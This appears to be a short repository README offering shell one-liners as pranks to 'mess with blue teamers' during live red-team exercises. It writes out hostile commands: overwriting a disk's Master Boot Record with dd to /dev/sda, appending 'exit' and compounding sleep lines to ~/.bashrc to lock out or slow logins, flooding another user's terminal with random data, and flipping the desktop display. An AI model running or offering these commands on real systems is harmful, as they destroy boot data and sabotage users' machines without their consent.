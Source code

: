 A small collection of tactics to mess with blue teamers in live environments...

```shell
xrandr -o inverted # Flip X11 desktop session upside down.

dd if=nyan.mbr of=/dev/sda # NyanMBR necessary, overwrites Master Boot Recrd with Nyancat animation

echo exit >> ~/.bashrc # Add a logout to the login script

cat /dev/urandom > /dev/pts/<#> # Fill terminal with random noise spewing out at high speed.

echo "echo "sleep 1;" >> ~/.bashrc">> ~/.bashrc # Add a longer sleep to their terminal startup every time they login. 
```
